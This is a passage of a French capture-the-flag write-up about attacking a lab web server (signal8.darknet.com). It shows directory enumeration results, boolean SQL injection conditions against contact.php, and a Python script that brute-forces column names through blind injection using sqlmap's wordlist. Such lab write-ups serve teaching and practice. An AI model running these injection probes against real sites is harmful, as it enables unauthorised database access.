 ```plain
</VirtualHost>
```

```plain
<VirtualHost *:80>
    ServerName signal8.darknet.com
    ServerAdmin errorlevel@darknet.com
    DocumentRoot /home/errorlevel/public_html
    <Directory /home/errorlevel/public_html>
        AllowOverride All
    </Directory>
</VirtualHost>
```

Madintaïwan
-----------

Ce nouveau site contient une page permettant d'afficher des contacts (via un numéro d'ID passé en paramètre) et une section demandant des identifiants sous */xpanel* :  

```plain
+ http://signal8.darknet.com/contact.php (CODE:200|SIZE:251)
+ http://signal8.darknet.com/index.php (CODE:200|SIZE:277)
+ http://signal8.darknet.com/xpanel/edit.php (CODE:200|SIZE:298)
+ http://signal8.darknet.com/xpanel/home.php (CODE:302|SIZE:0)
+ http://signal8.darknet.com/xpanel/index.php (CODE:200|SIZE:466)
```

Pour l'ID 1 on retrouve l'utilisateur errorlevel@darknet.com (Errorlevel) et pour l'ID 2 on a devnull@darknet.com (Devnull).  

Le script est vulnérable à une forme d'injection SQL mais là encore il ne s'agit pas de MySQL mais quelque chose qui est à première vue plus basique.  

On remarque que l'on peut notamment influer sur le résultat avec des conditions supplémentaires. Par exemple les conditions suivantes permettent de conserver l'output :  

```plain
and (1=1)
and ('1'='1')
and (1<2)
and ('1'<'2')
```

J'ai alors créé un script pour tester des noms de colonnes (la wordlist utilisée est celle de sqlmap) :  

```python
import requests

url = "http://signal8.darknet.com/contact.php?id=1%20and%20{0}!=1"

sess = requests.session()

with open("/opt/sqlmap-dev/txt/common-columns.txt") as fd:
    while True:
        line = fd.readline()
        if not line:
            break

        line = line.strip()
        if not line:
            continue

        r = sess.get(url.format(line))
        if "errorlevel@darknet.com" in r.text:
            print(line)
```
